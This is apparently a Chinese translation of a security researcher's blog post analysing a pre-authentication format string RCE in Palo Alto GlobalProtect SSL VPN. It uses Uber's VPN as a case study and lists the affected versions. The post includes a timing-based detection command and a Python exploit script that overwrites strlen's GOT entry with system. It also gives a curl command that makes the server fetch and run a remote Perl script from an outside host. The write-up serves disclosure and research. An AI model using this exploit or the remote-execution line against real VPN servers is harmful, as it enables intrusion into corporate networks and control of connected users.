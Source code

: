 ```yaml
---
date: 2025-08-02T02:11:51+08:00
title: 攻击SSL VPN系列(一)：Palo Alto GlobalProtect预认证RCE漏洞分析，以Uber为例
tags: [漏洞分析, SSL VPN, 远程代码执行, 格式字符串漏洞]
authors: qife
description: 本文详细分析了Palo Alto GlobalProtect SSL VPN中存在的预认证格式字符串漏洞，该漏洞可导致远程代码执行。文章包含漏洞验证方法、利用技术细节，并以Uber实际案例展示攻击过程。
---
```


# 攻击SSL VPN系列(一)：Palo Alto GlobalProtect预认证RCE漏洞分析

**作者**: Orange Tsai(@orange_8361) 和 Meh Chang(@mehqq_)

SSL VPN用于保护企业资产免受互联网暴露，但如果SSL VPN本身存在漏洞会怎样？它们暴露在互联网上，被信任为保护内网入口的唯一屏障。一旦SSL VPN服务器被攻破，攻击者就能渗透内网甚至控制所有连接到该VPN的用户！基于其重要性，过去几个月我们启动了对主流SSL VPN产品安全性的研究。

我们计划分三篇文章发布研究成果。本文将作为首篇，因为它是一个有趣的故事，非常适合作为我们在Black Hat USA和DEFCON演讲的开胃菜：

《像NSA一样渗透企业内网 - 主流SSL VPN的预认证RCE漏洞！》

## 漏洞详情

这是一个无需认证的简单格式字符串漏洞。sslmgr是处理服务器与客户端SSL握手的SSL网关，通过Nginx反向代理暴露在/sslmgr路径下。

```bash
$ curl https://global-protect/sslmgr
<?xml version="1.0" encoding="UTF-8" ?>
        <clientcert-response>
                <status>error</status>
                <msg>Invalid parameters</msg>
        </clientcert-response>
```

在参数提取过程中，守护进程会搜索字符串scep-profile-name并将其值作为snprintf格式字符串来填充缓冲区，导致格式字符串攻击。使用%n即可使服务崩溃：

```http
POST /sslmgr HTTP/1.1
Host: global-protect
Content-Length: 36

scep-profile-name=%n%n%n%n%n...
```

## 受影响版本

根据我们的调查，2018年7月之前的所有GlobalProtect版本均受影响：

- Palo Alto GlobalProtect SSL VPN 7.1.x < 7.1.19
- Palo Alto GlobalProtect SSL VPN 8.0.x < 8.0.12
- Palo Alto GlobalProtect SSL VPN 8.1.x < 8.1.3

9.x和7.0.x系列不受此漏洞影响。

## 漏洞验证方法

虽然我们知道漏洞位置，但验证并不容易。该格式字符串没有输出，我们无法通过地址泄露来验证。我们选择使用%c作为验证工具：

```bash
$ time curl -s -d 'scep-profile-name=%9999999c' https://global-protect/sslmgr >/dev/null
real    0m1.721s
user    0m0.037s
sys     0m0.005s
```

随着%c数量的增加，响应时间相应延长，从而优雅地识别出存在漏洞的SSL VPN。

## 漏洞利用

确定具体版本后，我们通过修改Global Offset Table(GOT)中的strlen指针为system的Procedure Linkage Table(PLT)地址来实现利用：

```python
#!/usr/bin/python
import requests
from pwn import *

url = "https://sslvpn/sslmgr"
cmd = "echo pwned > /var/appweb/sslvpndocs/hacked.txt"

strlen_GOT = 0x667788 # 需修改
system_plt = 0x445566 # 需修改

fmt =  '%70$n'
fmt += '%' + str((system_plt>>16)&0xff) + 'c'
fmt += '%32$hn'
fmt += '%' + str((system_plt&0xffff)-((system_plt>>16)&0xff)) + 'c'
fmt += '%24$hn'
for i in range(40,60):
    fmt += '%'+str(i)+'$p'

data = "scep-profile-name="
data += p32(strlen_GOT)[:-1]
data += "&appauthcookie="
data += p32(strlen_GOT+2)[:-1]
data += "&host-id="
data += p32(strlen_GOT+4)[:-1]
data += "&user-email="
data += fmt
data += "&appauthcookie="
data += cmd
r = requests.post(url, data=data)
```

修改完成后，sslmgr就成为我们的webshell，可以通过以下方式执行命令：

```bash
$ curl -d 'scep-profile-name=curl orange.tw/bc.pl | perl -' https://global-protect/sslmgr
```

## Uber案例分析

在我们确认这不是0day后，调查了全球使用存在漏洞GlobalProtect的大型企业，Uber是其中之一。以vpn.awscorp.uberinternal.com为例：

从域名推测Uber使用AWS Marketplace的BYOL服务。从登录页面看似乎是8.x版本，最终我们确定版本为8.0.6并成功获取shell。

Uber迅速响应并修复了漏洞，他们给出了详细的漏洞奖励决定说明：

"虽然这是一个无需认证的RCE，但由于该Palo Alto SSL VPN不是员工使用的主要VPN，且部署在AWS而非核心基础设施中，因此整体影响和位置优势较低。"

我们享受整个研究过程并向安全社区反馈，这比漏洞奖励更有价值！